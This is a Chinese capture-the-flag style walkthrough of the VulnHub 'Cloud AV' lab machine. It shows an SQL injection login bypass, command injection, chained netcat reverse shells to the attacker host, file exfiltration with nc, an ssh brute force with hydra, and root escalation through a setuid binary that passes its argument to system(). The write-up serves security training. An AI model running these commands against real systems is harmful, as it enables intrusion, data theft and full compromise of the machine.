



fscan信息侦查 | sql注入 | 命令注入 | nc串联反弹shell | 信息收集 | ssh爆破 | 代码审计 | suid提权

<!-- more -->

## 1. 环境

[靶机地址](https://www.vulnhub.com/entry/boredhackerblog-cloud-av,453/)

导入Virtualbox

设置网络让攻击机和靶机互通

攻击机kali: 192.168.0.10


## 2. 主机发现

- 使用[Ladon](https://github.com/k8gege/LadonGo)

  ```
  sudo ./LadonLinux 192.168.0.0/24 IcmpScan
  
  #使用ping不需要超级管理员权限
  ./LadonLinux 192.168.0.0/24 PingScan
  ```

  结果不太准，不稳定。ladon也支持

- 使用arp-scan

  ```
  sudo arp-scan -l
  ```

  没有发现

- arping（是linux机器都会有）

  ```
  for i in $(seq 1 254); do sudo arping -c 2 192.168.0.$i; done
  ```

- fscan

  ```
  sudo ./fscan_darwin -h 192.168.0.0/24
  
  #使用ping不需要超级管理员
  ./fscan_darwin -h 192.168.0.0/24 -ping
  ```

  

通过fscan发现

```
[shadowflow@ShadowOS recon]$ sudo ./fscan_darwin -h 192.168.0.0/24

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.6.3
start infoscan
(icmp) Target '192.168.0.101' is alive
(icmp) Target '192.168.0.103' is alive
(icmp) Target '192.168.0.1' is alive
(icmp) Target '192.168.0.100' is alive
(icmp) Target '192.168.0.102' is alive
icmp alive hosts len is: 5
192.168.0.103:8080 open
192.168.0.103:22 open
192.168.0.1:80 open
alive ports len is: 3
start vulscan
[*] WebTitle:http://192.168.0.103:8080 code:200 len:327    title:None
```

192.168.0.103开放了22端口和8080端口，这就是我们的靶机了


## 3. web入侵

访问http://192.168.0.103:8080

输入框要求我们输入账号密码，要绕过的话有两种方式，sql注入或者爆破

 


### 3.1 SQL注入

使用特殊字符fuzz，发现`"`导致异常，排查



很明显将`"`拼接进了sql语句

那么构造`aa" or 1=1--+`万能密码就登场成功了

 

这是一个杀毒扫描程序，选择文件进行扫描。

猜测服务器上执行的是`xxAVscan xxxfile`，那么也许我们可以使用`|`进行命令拼接从而执行命令


### 3.2 命令注入

 

拼接命令执行，结果如下

```
uid=1001(scanner) gid=1001(scanner) groups=1001(scanner)
```

既然可以执行命令我们就可以反弹shell


## 4. 远程控制

上面我们已经看到有netcat，尝试使用nc反弹shell，查看位置

```
netcat | which nc

#结果
/bin/nc
```

使用nc反弹shell

```
#尝试poc
netcat | nc 192.168.0.10 4444 -e /bin/sh
```

上述没有收到shell，因为<u>有的nc版本没有-e参数</u>

直接使用nc连接证明是否存在nc

```
netcat | nc 192.168.0.10 4444
#结果确实收到了nc连接
```

**使用nc串联**

```
#kali监听两个端口,一个作为输入，一个作为接收，3333输入，4444接收
nc -lvvp 3333
nc -lvvp 4444

#poc
netcat | nc 192.168.0.10 3333 | /bin/bash | nc 192.168.0.10 4444
```

现在我们在3333端口执行命令，执行结果会在4444端口显示。

现在我们完成了远程控制


## 5. 信息收集

执行ls命令，发现如下几个文件

```
app.py
database.sql
samples
templates
```

**获取sqlite文件**

```
#kali接收数据
nc -lnvlp 5555 > db.sql

#靶机执行
nc 192.168.0.10 5555 < database.sql
```

这种方式获取到文件后是没有提示的

**在kali 机器上读取sqlite文件**

```shell
#进入sqlite
[root@kali ~]# sqlite3                                                                                                                 127 ⨯
SQLite version 3.34.1 2021-01-20 14:10:07
Enter ".help" for usage hints.
Connected to a transient in-memory database.
Use ".open FILENAME" to reopen on a persistent database.

#打开db.sql
sqlite> .open db.sql

#查看数据库路径
sqlite> .database
main: /root/db.sql r/w

#查看内容
sqlite> .dump
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE `code` (
	`password`	TEXT
);
INSERT INTO code VALUES('myinvitecode123');
INSERT INTO code VALUES('mysecondinvitecode');
INSERT INTO code VALUES('cloudavtech');
INSERT INTO code VALUES('mostsecurescanner');
COMMIT;
sqlite>
```

发现有几个密码

```
myinvitecode123
mysecondinvitecode
cloudavtech
mostsecurescanner
```


## 6. 爆破账号

已经有了账号，现在获取可以登录的用户

执行命令

```
cat /etc/passwd | grep /bin/bash
```

结果

```
root:x:0:0:root:/root:/bin/bash
cloudav:x:1000:1000:cloudav:/home/cloudav:/bin/bash
scanner:x:1001:1001:scanner,,,:/home/scanner:/bin/bash
```

构造字典如下

user.txt

```
root
cloudav
scanner
```

pass.txt

```
myinvitecode123
mysecondinvitecode
cloudavtech
mostsecurescanner
```

爆破ssh服务

```
hydra -L user.txt -P pass.txt ssh://192.168.0.103
```

爆破失败


## 7. suid提权

查看suid的二进制文件

```
find / -perm -u=s -type f 2>/dev/null 
```

结果是没有常见的提权的可执行程序的，但是有一个文件值得注意

```
/home/scanner/update_cloudav
```

于是我们看一下scanner目录

```
ls -l /home/scanner/
```

结果如下

```
drwxrwxr-x 4 scanner scanner 4096 Oct 24  2018 cloudav_app
-rwsr-xr-x 1 root    scanner 8576 Oct 24  2018 update_cloudav
-rw-rw-r-- 1 scanner scanner  393 Oct 24  2018 update_cloudav.c
```

发现update_cloudav的源码，审计一下

```c
#include <stdio.h>

int main(int argc, char *argv[])
{
char *freshclam="/usr/bin/freshclam";

if (argc < 2){
printf("This tool lets you update antivirus rules\nPlease supply command line arguments for freshclam\n");
return 1;
}

char *command = malloc(strlen(freshclam) + strlen(argv[1]) + 2);
sprintf(command, "%s %s", freshclam, argv[1]);
setgid(0);
setuid(0);
system(command);
return 0;

}
```

该程序调用了freshclam，并且可以指定一个参数，那么我们将参数设置为反弹shell的命令或许可以成功

执行如下命令，执行前kali再监听两个端口

```
/home/scanner/update_cloudav "a|nc 192.168.0.10 6666 | /bin/bash | nc 192.168.0.10 7777"
```

收到shell

```
uid=0(root) gid=0(root) groups=0(root),1001(scanner)
```

至此打靶结束
